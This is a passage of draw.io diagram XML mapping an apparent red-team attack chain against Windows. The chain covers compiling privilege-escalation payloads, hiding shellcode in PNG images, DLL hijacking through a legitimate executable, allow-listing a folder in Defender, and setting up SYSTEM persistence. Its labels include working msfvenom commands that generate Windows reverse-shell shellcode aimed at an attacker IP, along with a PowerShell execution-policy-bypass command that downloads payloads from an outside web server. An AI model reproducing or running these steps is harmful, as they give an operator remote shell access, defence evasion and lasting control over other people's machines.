        <mxCell id="P6aCfQ930mBBJoiv-hOj-27" value="Logon&lt;br&gt;Script" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="370" y="225" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-3" value="Execute reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="590" y="274" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.002;entryY=0.416;entryDx=0;entryDy=0;entryPerimeter=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="z6HOM-UdMG8HWjAG-id3-0" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="320" y="172" as="sourcePoint" />
            <mxPoint x="370" y="149" as="targetPoint" />
            <Array as="points">
              <mxPoint x="330" y="160" />
              <mxPoint x="330" y="214" />
              <mxPoint x="150" y="214" />
              <mxPoint x="150" y="290" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="z6HOM-UdMG8HWjAG-id3-4" value="" style="group" vertex="1" connectable="0" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="170" y="229" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="z6HOM-UdMG8HWjAG-id3-0" value="Drop .bat Logon Script to Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="z6HOM-UdMG8HWjAG-id3-4">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="z6HOM-UdMG8HWjAG-id3-3" value="Logon&lt;br&gt;Script" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="z6HOM-UdMG8HWjAG-id3-4">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-0" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-30" target="P6aCfQ930mBBJoiv-hOj-47" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-30" value="Update EOP Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="40" width="1300" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-33" value="DEVOBJ.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-34" value="Medium IL Tools Directory&#xa;(Reverse_9101.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-33" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-35" value="9101.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="550" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-36" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-37" value="Port (9101)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-38" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="710" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-41" value="9101.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="370" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-42" value="Medium IL Tools Directory&#xa;(9101.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-41" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-43" value="EOP.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="30" y="40" width="140" height="90" as="geometry">
            <mxRectangle x="-827" y="400" width="90" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-44" value="Medium IL Tools Directory&#xa;(DEVOBJ.dll)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-45" value="Medium IL Tools Directory&#xa;(Allow-list A/V)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-39" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="P6aCfQ930mBBJoiv-hOj-30" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="480" y="110" as="targetPoint" />
            <mxPoint x="315" y="230" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-47" target="P6aCfQ930mBBJoiv-hOj-54" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-47" value="Compile EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="250" width="880" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-52" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-53" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-22" value="Compile EXE / DLL" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-23" value="EOP.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-24" value="9001.cpp&lt;br&gt;" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-25" value="DEVOBJ.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-54" target="c0Sctn81WB5nrNk0CtNy-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-54" value="Stage EOP Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="460" width="580" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-55" value="EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-56" value="9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-58" value="9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="450" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-26" value="DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-2" value="Execute EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="620" width="990" height="330" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-3" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-4" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/EOP.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-5" value="Execute EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-6" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-3" target="c0Sctn81WB5nrNk0CtNy-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-28" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-9" target="c0Sctn81WB5nrNk0CtNy-27" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-9" value="Create &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="370" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-10" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-5" target="c0Sctn81WB5nrNk0CtNy-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-30" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-27" target="c0Sctn81WB5nrNk0CtNy-29" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-27" value="Copy legitimate fsavailux.exe to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="370" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-32" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-29" target="c0Sctn81WB5nrNk0CtNy-31" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-29" value="Copy malicious DEVOBJ.dll to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="530" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-34" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-31" target="c0Sctn81WB5nrNk0CtNy-33" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-31" value="Execute fsavailux.exe from &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="530" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-39" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-43" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-42" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-33" value="DLL Hijack through malicious DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-37" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-35" target="c0Sctn81WB5nrNk0CtNy-36" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-35" value="Execute 9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-36" value="Read Payload From 9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="85" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-39" value="Delete &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-42" value="Allow-list Medium IL Tools directory for Defender" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="262" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-22" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="c0Sctn81WB5nrNk0CtNy-44" target="Op0RA1QyIyzGp62vVNNJ-0" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="380" y="845" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-24" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="c0Sctn81WB5nrNk0CtNy-44" target="WIyWlLk6GJQsqaUBKTNV-11" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-44" value="Establish High IL&amp;nbsp;&lt;br&gt;/ SYSTEM Persistence" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="790" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-18" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-0" target="Op0RA1QyIyzGp62vVNNJ-14" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1230" y="1190" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-0" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="960" width="1520" height="170" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-1" value="Pers_High.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="35" y="55" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-2" value="High IL Tools Directory&#xa;(9201.exe / 9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-1" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-5" value="9201.raw / 9202.raw / 9203.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="735" y="55" width="180" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-6" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="Op0RA1QyIyzGp62vVNNJ-5" vertex="1">
          <mxGeometry y="30" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-7" value="Port (9201 / 9202 / 9203)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="Op0RA1QyIyzGp62vVNNJ-5" vertex="1">
          <mxGeometry y="60" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-8" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="935" y="55" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-3" value="9201.cpp / 9202.cpp / 9203.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="505" y="55" width="190" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-4" value="High IL Tools Directory&#xa;(9201.png / 9202.png / 9203.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-3" vertex="1">
          <mxGeometry y="30" width="190" height="40" as="geometry" />
        </mxCell>
